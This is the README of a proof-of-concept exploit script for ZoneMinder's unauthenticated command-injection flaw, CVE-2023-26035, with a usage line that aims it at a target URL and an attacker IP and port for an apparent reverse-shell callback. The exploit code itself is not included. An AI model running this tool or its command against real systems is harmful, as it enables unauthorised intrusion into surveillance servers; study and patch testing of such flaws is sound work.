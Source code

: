 # Zoneminder Unauthenticated RCE (CVE-2023-26035) POC

This is a script written in Python that allows the exploitation of the **Zoneminder's** security flaw in the described in CVE-2023-26035. The system is vulnerable in versions preceding **1.36.33** and **1.37.33.**

## Usage

The script needs the **target URL** with the **Zoneminder's** root path (like **http://example.com/zm, http://example.com** or **http://example.com/zoneminder)**, the **IP** or **domain** for the target machine to connect and the **port** for the target machine to connect. Here's an example:

```python3 main.py -u http://zoneminder.target:8000 -i 10.10.14.56 -p 443```

![script-demo](https://iili.io/Ju3w7t9.gif)

## References

[Unauthenticated RCE in snapshots](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-72rg-h4vf-29gr)

[Rapid7 Vulnerability & Exploit Database ZoneMinder Snapshots Command Injection](https://www.rapid7.com/db/modules/exploit/unix/webapp/zoneminder_snapshots/)
